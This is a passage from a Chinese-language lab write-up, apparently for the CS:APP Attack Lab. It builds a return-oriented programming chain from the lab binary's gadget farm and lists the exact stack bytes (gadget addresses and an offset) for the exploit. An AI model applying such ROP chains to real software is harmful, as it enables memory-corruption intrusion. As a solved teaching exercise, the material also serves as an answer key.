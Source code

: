 注意到 gadget farm 中函数 `addval_487` 对应的汇编语句：

```text
0000000000401a40 <addval_487>:
  401a40:   8d 87 89 c2 84 c0       lea    -0x3f7b3d77(%rdi),%eax
  401a46:   c3                      retq
```

其中机器码 `89 c2 84 c0 c3` 对应汇编指令：

```asm
movl   %eax,%edx
testb  %al,%al
ret
```

该指令的地址为 `0x401a42`。这里 `testb %al,%al` 相当于一条无用指令。

至此，我们可以将 `%rax` 的值传到 `%rsi` 寄存器了（`%eax`-> `%edx` -> `%ecx` -> `%esi`）。

###### 5.4.1.8 整合

于是可改写第 1 句指令为：

```asm
popq   %rax
ret
movl   %eax,%edx
testb  %al,%al
ret
movl   %edx,%ecx
cmpb   %cl,%cl
ret
movl   %ecx,%esi
ret

movq   %rsp,%rax
ret
movq   %rax,%rdi
ret

leaq   (%rdi,%rsi,1),%rax
ret
movq   %rax,%rdi
ret
```

在栈中需要保存的内容为：

```text
cc 19 40 00 00 00 00 00             /* popq   %rax                  */
ff 00 00 00 00 00 00 00             /* the value of offset          */
42 1a 40 00 00 00 00 00             /* movl   %eax,%edx             */
34 1a 40 00 00 00 00 00             /* movl   %edx,%ecx             */
13 1a 40 00 00 00 00 00             /* movl   %ecx,%esi             */
06 1a 40 00 00 00 00 00             /* movq   %rsp,%rax             */
a2 19 40 00 00 00 00 00             /* movq   %rax,%rdi             */
d6 19 40 00 00 00 00 00             /* leaq   (%rdi,%rsi,1),%rax    */
a2 19 40 00 00 00 00 00             /* movq   %rax,%rdi             */
```
